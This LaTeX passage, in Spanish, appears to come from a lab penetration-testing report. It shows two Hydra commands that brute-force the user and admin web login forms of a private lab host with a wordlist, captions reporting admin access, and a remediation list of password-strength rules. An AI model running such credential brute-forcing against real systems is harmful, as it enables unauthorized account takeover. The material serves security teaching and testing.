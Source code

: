 \documentclass[12pt,twoside]{article}
\begin{document}
Después,  usaremos esos parámetros para personalizar la llamada de hydra:
\begin{verbatim}
    hydra -L palabras_web.txt -P palabras_web.txt 192.168.150.128 http-post-form "/users/login.php:username=^USER^&password=^PASS^:The username/password combination"
\end{verbatim}
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.4]{./imagenes/hydra_2PNG}
    \caption{Ataque exitoso}
\end{figure}
Incluso, si llevamos a cabo los mismos pasos en la página de login del admin, utilizando el comando adecuado:
\begin{verbatim}
   hydra -L palabras_web.txt -P palabras_web.txt 192.168.150.128 http-post-form "/admin/index.php?page=login:adminname=^USER^&password=^PASS^:Admin Area"
\end{verbatim}
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.4]{./imagenes/hydra_4}
    \caption{Usuario y contraseña del admin}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.6]{./imagenes/hydra_5}
    \caption{Acceso como admin}
\end{figure}
\subsubsection*{Solución a  la vulnerabilidad:}
Deberemos exigir mayor robustez en las contraseñas, exigiendo parámetros más complejos,  como por ejemplo:
\begin{itemize}
    \item Más de 10 caracteres
    \item Un número
    \item Una mayúscula
    \item Una minúscula
    \item Un símbolo
\end{itemize}
\end{document}

